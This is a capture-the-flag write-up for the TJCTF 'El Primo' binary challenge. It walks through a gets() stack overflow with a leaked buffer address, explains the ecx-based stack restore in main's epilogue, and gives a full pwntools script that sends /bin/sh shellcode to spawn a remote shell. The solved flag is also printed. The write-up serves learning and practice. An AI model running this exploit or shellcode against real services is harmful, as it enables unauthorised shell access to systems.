



# tjctf: binary

Written by agcdragon

_My friend just started playing Brawl Stars and he keeps raging because he can't beat El Primo! Can you help him?_

`nc p1.tjctf.org 8011`

## El Primo

This challenge is where the confusion begins. It's 10 points higher than OSRS, with a couple-dozen (106-85 at the time of writing) more solves.

It is also ostensibly easier than OSRS. The authors for these two challenges are different, and it's easy to assume that that's the reason for the point disparity, but that rationale doesn't account for the difference in solve count.

We can scrap that mystery and head on to the challenge. IDA shows a distressingly simple `main()`, and `checksec` isn't much different from what it was in OSRS:

```c
int main(){
  char s[0x28];
  puts("What's my hard counter?");
  printf("hint: %p\n", s);
  gets(s);
  return 0;
}
```
<p align="center">

</p>

Unlike OSRS, the stack address is given for free. We can send a pure pwntools `/bin/sh` shellcode, which coincidentally fits perfectly into the width of `len(s[])+4`, making the final payload as simple as `shellcode + addr_of_s`.

Or at least, it _should've_ been. Indelibly, the binary meets a segfault if you try something as simple as `r.sendline(sh+p32(s))`:

<p align="center">

</p>

The assembly for `main()` here is a little special. It doesn't just store the old ebp & eip, but it also stores a number of other registers, which you can see popping back into the stack at the end of the function frame:

<p align="center">

</p>

To get the correct address to pop off from `ret`, we need to make ecx-4 point to where the base pointer should be. Ergo, the stack will look like

```
+-----------------s[44]----------------+--------r---------+----------->
| garbage | addr_of_s+0x28+8 | garbage | addr_of_s+0x28+8 | shellcode >
+--44-12--+---------4--------+----8----+--------4---------+----------->
```
The shellcode has to fall after `r`, instead of at `s[]`, because the shellcode provided by pwntools is too long to fit^1^. Once all that's accounted for, we'll get a shell.

<p align="center">

</p>

## flag

`tjctf{3L_PR1M0O0OOO!1!!}`

## code
```py
from pwn import *
r_offset = 0x28+4
from re import findall
r = remote('p1.tjctf.org', 8011)
s = int(findall('0x[0-9a-f]*', r.recvline()+r.recvline())[0], 16)
sh = asm(shellcraft.i386.linux.sh(), arch='i386')
r.sendline(p32(s+r_offset+4).rjust(r_offset-8).ljust(r_offset)+p32(s+r_offset+4)+sh)
print(r_offset, len(sh))
r.interactive()
```
## footnotes
1. Smaller payloads from e.g. shell-storm.org would work just as well here.
